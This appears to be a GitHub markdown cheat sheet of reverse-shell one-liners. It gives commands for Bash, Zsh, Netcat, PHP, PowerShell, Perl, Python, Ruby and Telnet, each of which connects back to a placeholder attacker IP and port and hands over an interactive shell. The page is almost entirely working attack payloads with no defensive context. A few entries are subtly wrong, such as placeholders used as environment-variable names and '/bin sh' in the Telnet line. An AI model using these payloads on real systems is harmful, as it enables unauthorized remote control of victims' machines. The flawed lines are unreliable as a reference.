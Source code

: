 # Reverse Shell

A reverse shell is a shell session established on a connection that is initiated from a remote machine, not from the local host.

## **Bash**

```
bash -c 'exec bash -i &>/dev/tcp/[---IP---]/[---PORT---] <&1'
```

---

## **Zsh**

```
zsh -c 'zmodload zsh/net/tcp && ztcp [---IP---] [---PORT---] && zsh >&$REPLY 2>&$REPLY 0>&$REPLY'
```

---

## **Netcat**

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [---IP---] [---PORT---] >/tmp/f
```

---

## **PHP**


```
php -r '$sock=fsockopen(getenv("[---IP---]"),getenv("[---PORT---]"));exec("/bin/sh -i <&3 >&3 2>&3");'
```

---

## **Powershell**

```
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('[---IP---]',[---PORT---]);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

---

## **Perl**

```
perl -e 'use Socket;$i="$ENV{[---IP---]}";$p=$ENV{[---PORT---]};socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

---

## **Python**

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("[---IP---]",[---PORT---]));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

---

## **Ruby**

```
ruby -rsocket -e 'exit if fork;c=TCPSocket.new(ENV["[---IP---]"],ENV["[---PORT---]"]);while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

---

## **Telnet**

```
TF=$(mktemp -u); mkfifo $TF && telnet [---IP---] [---PORT---] 0<$TF | /bin sh 1>$TF
```

---